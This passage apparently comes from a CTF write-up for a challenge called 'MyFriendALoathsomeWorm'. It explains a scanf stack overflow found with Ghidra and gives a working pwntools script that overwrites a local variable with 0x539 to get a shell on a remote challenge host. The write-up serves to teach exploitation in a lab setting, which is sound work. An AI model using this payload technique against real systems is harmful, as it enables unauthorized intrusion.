 }
{% endhighlight %}
</font>

<font size="4">
<p>It looks like, if <code>local_1c</code> is equal to <code>0x539</code>, then we can get into the (root) shell. We can start writing from <code>local_38</code> and it uses <code>scanf()</code> function to scan and store <code>local_38</code>, which is a well-known vulnerable function.</p>

<p>The local relative address (on memory stack) of <code>local_38</code> is <code>0x38</code> and <code>local_1c</code> is <code>0x1c</code> (like their Ghidra-ed names say). Here is the screenshot of Ghidra, in case you don't trust me.</p>
</font>

<center>
<img src="/images/uwsp_2023/MyFriendALoathsomeWorm-ghidra.png">
</center>

<p></p>

<font size="4">
<p>So, our payload would be: <code>0x38 - 0x1c</code> many garbage bytes and <code>0x539</code>. In code (yes, I am finally using pwntools!), it'd look like this:</p>
</font>

<font size="4">
{% highlight python %}
import pwn

nc_ed = pwn.remote('34.123.210.162', '20232')

nc_ed.recvuntil(":")
nc_ed.sendline("1")
nc_ed.recvuntil(":")

payload = b'a' * (0x38 - 0x1c) + b'\x39\x05\x00\x00'
print(payload)

nc_ed.sendline(payload)
nc_ed.recvuntil(":")
nc_ed.sendline("3")

nc_ed.interactive()
{% endhighlight %}
</font>
